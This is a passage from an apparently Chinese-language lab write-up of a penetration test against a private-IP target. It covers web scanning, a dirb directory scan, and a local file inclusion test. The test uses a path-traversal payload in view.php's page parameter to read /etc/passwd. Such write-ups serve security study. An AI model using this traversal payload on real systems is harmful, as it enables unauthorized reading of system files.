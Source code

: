 ## 1.4 御剑扫描

```
192.168.81.142
```

得到一个网址

```
http://192.168.81.142/index.html
```

![image-20220315151255042](https://gitee.com/xxb667/img/raw/master/img/image-20220315151255042.png)



# 2.漏洞探测

## 2.1 网页探测

```
http://192.168.81.142/#portfolio
```

![image-20220315152726382](https://gitee.com/xxb667/img/raw/master/img/image-20220315152726382.png)

下面这个网址可能存在文件包含漏洞

```
http://192.168.81.142/view.php?page=tools.html
```

![image-20220315152825819](https://gitee.com/xxb667/img/raw/master/img/image-20220315152825819.png)

测试文件是否存在文件包含漏洞

```
http://192.168.81.142/view.php?page=../../../../../../../../../../../../etc/passwd
```

![image-20220315153009295](https://gitee.com/xxb667/img/raw/master/img/image-20220315153009295.png)

## 2.2 目录扫描 

```
dirb http://192.168.81.142
```

![image-20220315153349298](https://gitee.com/xxb667/img/raw/master/img/image-20220315153349298.png)

![image-20220315153412085](https://gitee.com/xxb667/img/raw/master/img/image-20220315153412085.png)

得到的网址

```
http://192.168.81.142/dbadmin/
http://192.168.81.142/img/
http://192.168.81.142/vendor/
```
